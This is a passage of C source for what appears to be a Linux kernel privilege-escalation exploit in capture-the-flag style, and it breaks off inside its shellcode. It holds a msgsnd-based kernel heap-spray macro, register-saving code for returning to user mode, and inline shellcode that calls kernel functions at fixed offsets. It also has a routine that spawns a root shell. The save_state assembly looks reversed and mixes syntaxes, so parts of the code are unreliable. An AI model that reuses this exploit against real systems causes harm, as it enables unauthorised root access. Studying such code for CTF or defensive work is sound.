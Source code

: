 ```exploit-only-work-in-local.c
// globals
// (END globals)


// utils
#define WAIT getc(stdin);
#define ulong unsigned long
#define scu static const unsigned long
#define NULL (void*)0
#define errExit(msg) do { perror(msg); exit(EXIT_FAILURE); \
                        } while (0)
#define KMALLOC(qid, msgbuf, N) for(int ix=0; ix!=N; ++ix){\
                        if(msgsnd(qid, &msgbuf, sizeof(msgbuf.mtext) - 0x30, 0) == -1) errExit("KMALLOC");}
ulong user_cs,user_ss,user_sp,user_rflags;
struct pt_regs {
	ulong r15; ulong r14; ulong r13; ulong r12; ulong bp;
	ulong bx;  ulong r11; ulong r10; ulong r9; ulong r8;
	ulong ax; ulong cx; ulong dx; ulong si; ulong di;
	ulong orig_ax; ulong ip; ulong cs; ulong flags;
  ulong sp; ulong ss;
};
void print_regs(struct pt_regs *regs)
{
  printf("r15: %lx r14: %lx r13: %lx r12: %lx\n", regs->r15, regs->r14, regs->r13, regs->r12);
  printf("bp: %lx bx: %lx r11: %lx r10: %lx\n", regs->bp, regs->bx, regs->r11, regs->r10);
  printf("r9: %lx r8: %lx ax: %lx cx: %lx\n", regs->r9, regs->r8, regs->ax, regs->cx);
  printf("dx: %lx si: %lx di: %lx ip: %lx\n", regs->dx, regs->si, regs->di, regs->ip);
  printf("cs: %lx flags: %lx sp: %lx ss: %lx\n", regs->cs, regs->flags, regs->sp, regs->ss);
}
void NIRUGIRI(void)
{
  puts("[!!!] REACHED NIRUGIRI");
  int ruid, euid, suid;
  getresuid(&ruid, &euid, &suid);
  //if(euid != 0)
  //  errExit("[ERROR] FAIL");
  system("/bin/sh");
  //char *argv[] = {"/bin/sh",NULL};
  //char *envp[] = {NULL};
  //execve("/bin/sh",argv,envp);
}
// should compile with -masm=intel
static void save_state(void) {
  asm(
      "movq %0, %%cs\n"
      "movq %1, %%ss\n"
      "movq %2, %%rsp\n"
      "pushfq\n"
      "popq %3\n"
      : "=r" (user_cs), "=r" (user_ss), "=r"(user_sp), "=r" (user_rflags) : : "memory" 		);
}

static void shellcode(void){
  asm(
    "xor rdi, rdi\n"
    "mov rbx, QWORD PTR [rsp+0x50]\n"
    "sub rbx, 0x244566\n"
    "mov rcx, rbx\n"
    "call rcx\n"
    "mov rdi, rax\n"
    "sub rbx, 0x470\n"
    "call rbx\n"
```